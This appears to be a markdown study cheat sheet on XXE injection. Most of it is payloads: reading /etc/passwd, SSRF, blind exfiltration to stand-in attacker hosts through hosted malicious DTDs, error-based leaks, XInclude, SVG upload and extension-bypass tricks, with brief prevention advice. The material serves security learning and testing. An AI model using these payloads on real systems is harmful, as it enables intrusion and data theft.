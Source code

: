 # XML external entity (XXE) injection :syringe:

Uses XML data processing by a server to execute attacks against a server.  Can allow an attacker to:

- Read files on the server;
- Compromise the server; or
- Execute SSRF attacks.

Attacks occur when applications use XML to transmit data and do not disable potentially dangerous processing of XML entities.

:bulb: This type was more prevelant before JSON became the dominant data transfer format, but it is still sometimes exploitable.

## XML refresher

- `XML entities`: represent special characters in XML documents such as `&amp;`, `&gt;` and `&lt;`.
- `Document type definition (DTD)`: defines the structure of an XML document.  DTD is defined using a `DOCTYPE` tag.
- `XML custom entity`: define a custom entity in a DTD: `<!DOCTYPE foo [ <!ENTITY bar "bambaz" > ]>` which will cause `&bar;` to be replaced with the value `bambaz`.
- `XML external entity`: define an external entity in a DTD using the `SYSTEM` keyword.  They can be referenced from a local file or URL: 
```xml
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

Most XXE attacks are caused by XML external entities.

## XXE attacks

- `Retrieve file contents`: 
```xml
<!-- Return the contents of `/etc/passwd` -->
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>
```
- `Perform SSRF attack`: 
```xml
<!-- Return contents of `http://internal-website.com` -->
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://internal-website.com" > ]>
```
- `Blind XXE to exfiltrate data`: 
```xml
<!-- Cause the contents of `/etc/passwd` to be send to http://evil-corp.com -->
<!DOCTYPE foo [ <!ENTITY % file SYSTEM "file:///etc/passwd" >
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://evil-corp.com/?x=%file;'>"> %eval; %exfiltrate; ]>`
```
- `Blind XXE to retrieve data via error messages`: attacker triggers an XML parsing error that leaks sensitive data.

:bulb: When testing for XXE vulnerabilities, you will often need to test each node of the XML document to see if it is vulnerable.

### Retrieve file contents

Attacker must introduce or edit the DOCTYPE.  For example, an XML request that gets stock levels:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>

<!-- Alter to include a doctype that references a local file with a new `&xxe;` entity -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### Perform SSRF attack

Induce the application to make a request and return the resonse from an internal system:

```xml
<!-- 
Reponse will include response from http://internal.vulnerable-website.com/ if output is displayed to the user
Otherwise, this is a blind XXE attack
-->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### XXE via file upload

If an application allows XML to be uploaded.  This can include SVG files, which are XML.  For example, an SVG file that displays a message:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <text x="0" y="15" fill="red">&xxe;</text>
</svg>
```

It may also be possible to cause the server to accept an SVG file even if it only accepts PNG or JGP image types by changing the file extension:
```sh
# null byte and semicolon termination
malicious.svg%00.jpg
malicious.svg;.jpg`
```

### XXE via modified content type

Although an application may expect to receive request payloads in a specific type, it may be tolerant of XML payloads:

```http
# Expected format
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar

# Tolerates XML instead, at which point, XXE attacks can be attempted
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

### Blind XXE

Detect blind XXE by:

- using out-of-band testing; or
- triggering XML parsing errors.

#### Out-of-band testing (OAST)

The following will make a very specific request to a server controlled by the attacker which will be seen in the logs:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

It may be possible to bypass XML parsing hardening using parameter entities as well:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

#### Exfiltrating data using blind XXE

Attacker defines a malicious DTD hosted at `http://web-attacker.com/malicious.dtd`:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

They can then submit the following XML payload to a vulnerable application:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe; ]>
```

:bulb: this type of attack may be blocked by responses that contain newline characters.  Sometimes this can be bypassed using the FTP protocol rather than HTTP.

#### Retrieving data via XML parsing errors

Attacker defines a malicious DTD hosted at `http://web-attacker.com/malicious.dtd`:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Submitting the following to a vulnerable application will cause an XML error that leaks the contents of `/etc/passwd`:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe; ]>
```

#### Reporposing a local DTD

If external entity resolution is disabled, you may be able to redefine a custom entity within a local DTD on the target system.

1. Find a suitable local DTD file by searching for `*.dtd` files:

```xml
# This will issue an error if the local DTD does not exist
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
%local_dtd;
]>
```

2. Redefine a custom entity within the local DTD:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

## Finding XXE injection vulnerabilities

- `Requests contain XML data`: these are obvious vectors for XXE attacks.
- `XInclude attacks`: occur when the application includes your request in another XML document.  Since you do not control the entire document, a new `DOCTYPE` cannot be added.  However, `XInclude` still allows for XXE:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
- `File retrieval`: test for well known OS file retrieval such as `/etc/passwd` or `/etc/hosts`.
- `Blind XXE to trigger SSRF`: send requests to systems you control and watch for requests in the logs.


## Prevent

- Disable as many XML processing features as possible.
- Usually disabling external entity resolution and `XInclude` is enough.

## Tools

## References

- https://portswigger.net/web-security/xxe
- https://portswigger.net/web-security/xxe/blind
- https://portswigger.net/web-security/xxe/xml-entities